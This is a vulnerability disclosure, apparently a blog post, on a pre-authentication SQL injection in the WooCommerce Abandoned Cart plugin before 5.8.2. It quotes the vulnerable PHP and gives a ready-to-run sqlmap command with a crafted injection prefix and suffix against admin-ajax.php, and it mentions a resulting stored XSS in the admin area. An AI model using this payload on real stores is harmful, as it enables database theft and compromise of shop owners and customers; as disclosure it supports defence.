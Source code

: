# WooCommerce abandoned cart before 5.8.2 SQL injection

Abandoned Cart Plugin  stands for recovering abandoned shopping carts for WooCommerce. Plugin source code is in quite bad shape from the good WP plugin development practices, but it got quite good coverage from some Woo "authorities" in the past and it is installed on 30k+ active stores. Here we talk about preauth SQL injection that beside its consequences results in stored XSS directly in the WP admin area. Quite severe vulnerability when we speak about e-commerce.

## Eli5 PoC

Vulnerability exists in `woocommerce_guest_ac` class, where on WP initialization and class constructor
```
add_action( 'init', 'load_ac_ajax' );
```
it is added not privileged ajax action
```
function load_ac_ajax() {
		if ( ! is_user_logged_in() ) {
			add_action( 'wp_ajax_nopriv_save_data', 'save_data' );
		}
	}
```
in `save_data` we have the following "protections"
```
if ( isset( $_POST['billing_first_name'] ) && '' !== $_POST['billing_first_name'] ) {
				wcal_common::wcal_set_cart_session( 'billing_first_name', sanitize_text_field( wp_unslash( $_POST['billing_first_name'] ) ) );
			}
...
// Insert record in guest table
			$billing_first_name = wcal_common::wcal_get_cart_session( 'billing_first_name' );
```
and later this is the input towards not prepared DB query
```
$insert_guest     = 'INSERT INTO `' . $wpdb->prefix . "ac_guest_abandoned_cart_history_lite`( billing_first_name, billing_last_name, email_id, billing_zipcode, shipping_zipcode, shipping_charges ) 
                            VALUES ( '" . $billing_first_name . "', '" . $billing_last_name . "', '" . wcal_common::wcal_get_cart_session( 'billing_email' ) . "', '" . $billing_zipcode . "', '" . $shipping_zipcode . "', '" . $shipping_charges . "' )";
			$wpdb->query( $insert_guest );
```

So achieving the preauth SQLi is quite trivial e.g. on checkout page when `save_data` ajax action is called. In order to verify this vulnerability on your local setup, you will need a WP/Woo cookies and plugin nonce `wcal_guest_capture_nonce`. So we have the following:
```
python3 sqlmap.py -u http://local.target/wp-admin/admin-ajax.php --cookie='[cookies content here]' --method='POST' --data='billing_first_name=wpdeeply&billing_last_name=wpdeeply&billing_company=wpdeeply&billing_address_1=wpdeeply&billing_address_2=wpdeeply&billing_city=wpdeeply&billing_state=wpdeeply&billing_postcode=123234&billing_country=GB&billing_phone=12324&billing_email=wpdeeply%40protonmail.com&order_notes=&wcal_guest_capture_nonce=[nonce-value]&action=save_data' -p billing_first_name --prefix="', '', '','', '',( TRUE " --suffix=")) -- wpdeeply" --dbms mysql --technique=T --time-sec=1 --current-db --current-user
```
If you dive deeper into plugin code, you will notice that this content is displayed in admin area, so there is nice stored XSS too, almost the same technique like here.

## Few facts

- As Woo owner you should trust no one regarding plugins / software on your e-commerce infrastructure.
- Plugin developer was brave enough to ask for fix to be deployed in end of November while 100-200 new active installs per day happened and plugins team were "polite" enough to allow that
- This bug seems like classical backdoor, but I'll judge in a favor of not following best WP development practices
- Woo vulnerabilities != WP vulnerabilities

## Remediation

- Use best deployment practices for web / PHP applications
- Test and regression verify code that lands on your e-commerce 

